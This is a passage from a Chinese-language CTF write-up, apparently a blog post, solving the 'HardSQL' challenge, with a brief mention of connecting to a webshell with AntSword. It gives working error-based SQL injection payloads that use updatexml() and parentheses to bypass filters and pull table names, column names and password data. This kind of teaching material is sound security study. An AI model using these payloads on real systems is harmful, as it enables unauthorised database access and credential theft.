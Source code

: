 ![image-20221230144419917](https://s2.loli.net/2022/12/30/xdHloT8JwQgt5vc.png)



然后使用蚁剑连接即可：

<img src="https://s2.loli.net/2022/12/30/AiWKw4lk6ecGCnJ.png" alt="image-20221230144456788" style="zoom:33%;" />



## [极客大挑战 2019]HardSQL

我们从密码处测试，发现很多被过滤了(可以使用fuzz)，union，if被过滤了，所以不能使用联合查询，bool盲注等方法了。并且空格过滤了，`/**/` `%0a` 等方法都不行，我们只用一种方法了，使用 () 去分隔：

> 括号是来包含子查询的，任何可以计算出结果的语句都可以用括号围起来，而括号的两端，可以没有多余的空格

![image-20221230153809484](https://s2.loli.net/2022/12/30/ekrJKxvMn815aD2.png)



我们使用 `'or(1)%23` 登录成功，但是没有回显。我们错误信息会显示出来，因此我们可以使用`报错注入`

此处使用 `updatexml()`

查询表名：

```mysql
'or(updatexml(0,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like'geek')),0x7e),0))%23
```

![image-20221230154018217](https://s2.loli.net/2022/12/30/n7jrbLicqtuXp21.png)

查询字段名：

```mysql
'or(updatexml(0,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like'H4rDsq1')),0x7e),0))%23
```

![image-20221230154042308](https://s2.loli.net/2022/12/30/B7nNh64WR3gLx82.png)

查询 password字段数据：

```mysql
'or(updatexml(0,concat(0x7e,(select(group_concat(password))from`H4rDsq1`),0x7e),0))%23
```

![image-20221230154135080](https://s2.loli.net/2022/12/30/Plv3YZEXkSrp6s2.png)

此时我们发现只显示出来一部分，我们尝试使用 substr()、mid()等函数，发现被过滤了。

但是我们还可以使用 left()、right()函数，这里只能使用right()

```mysql
'or(updatexml(0,concat(0x7e,(select(right(group_concat(password),30))from`H4rDsq1`),0x7e),0))%23
# 显示右边的30个字符
```
